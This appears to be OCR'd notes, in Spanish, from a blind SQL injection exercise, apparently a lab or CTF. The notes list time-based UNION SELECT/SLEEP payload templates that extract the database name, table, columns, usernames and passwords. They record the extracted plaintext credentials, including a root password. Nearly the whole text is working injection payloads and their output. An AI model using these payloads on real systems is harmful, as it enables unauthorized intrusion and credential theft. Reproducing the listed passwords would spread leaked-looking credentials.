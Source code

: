 Database: 				users
#' UNION SELECT IF(SUBSTRING((SELECT database()), {position}, 1)='{character}', SLEEP({delay_time}), 0), 2, 3 -- -

Tabla de users: 			usuarios
#' UNION SELECT IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='users' LIMIT 0,1),{position},1)='{character}',SLEEP({delay_time}),0),2,3 -- -" 
#> LIMIT 0,1 NOS PERMITE SABER LA CANTIDAD DE TABLA QUE HAY EN UNA BASE DE DATOS Y SU NOMBRE ---- EN ESTE CASO SOLO HAY UNA Y SE LLAMA USUARIOS.

Columnas de la tabla usuarios: 		id (LIMIT 0,1)
					username(LIMIT 1,1)
					password(LIMIT 2,1)
					(LIMIT 3,1) -> NO TENEMOS RESULTADOS PORQUE LA 4TA COLUMNA NO EXISTE '
#' UNION SELECT IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1),{position},1)='{character}', SLEEP({delay_time}), 0),2,3 -- -

Usuarios de la columna username=	paco(LIMIT 0,1)
					pepe(LIMIT 1,1)
					juan(LIMIT 2,1)
#' UNION SELECT IF(SUBSTRING((SELECT username FROM usuarios LIMIT 0,1),{position},1)='{character}', SLEEP({delay_time}), 0),2,3 -- -
Contraseña de= 				paco - $paco$123
					pepe - P123pepe3456P		 
					juan - jjuuaann123	
#' UNION SELECT IF(SUBSTRING((SELECT password FROM usuarios LIMIT 0,1),{position},1)='{character}', SLEEP({delay_time}), 0),2,3 -- -
u s e r s =>  us

Contraseña root=			root - spongebob34



